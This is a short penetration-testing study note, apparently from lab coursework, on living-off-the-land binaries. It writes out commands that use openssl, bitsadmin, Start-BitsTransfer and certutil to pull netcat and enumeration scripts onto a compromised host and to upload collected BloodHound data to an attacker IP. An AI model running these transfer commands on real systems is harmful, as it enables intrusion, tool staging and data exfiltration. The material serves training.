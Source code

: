 ```yaml
---
title:  "LOLBins"
tags:
  - hacking
  - htb
programming-languagues:
created: 2022-07-11
---
```

# LOLBins
---
Aka Living off the land binaries, which are binaries that an attacker can use to perform actions beyond their original purpose.

Two websites on this:
- LOLBAS Project for **Windows** Binaries ([here](https://lolbas-project.github.io/#))
- GTFOBins for **Linux** Binaries ([here](https://gtfobins.github.io/))

They can be used to perform actions like:
- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

## GTFOBins
We can search for the download and upload function using `+file download` and `+file upload`:

We can use **openssl**. We first need to create a certificate and start a server.

### Create Certificate in Pwnbox
```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

### Stand up the Server in our Pwnbox
```bash
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Now to download the file from the compromised machine.

### Download File from the Compromised Machine
```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Lol Tools
### Bitsadmin Download function
The Background Intelligent Transfer Service ([BITS](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)) can be used to download files from HTTP sites and SMB shares.

#### File download with bitsadmin
```powershell
PS bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

#### Download
```powershell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

#### Upload
```powershell
Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override-ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

### Certutil
A defacto to `wget`. The Antimalware Scan Interface (AMSI) detects this as malicious Certutil usage:

```bash
cerutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```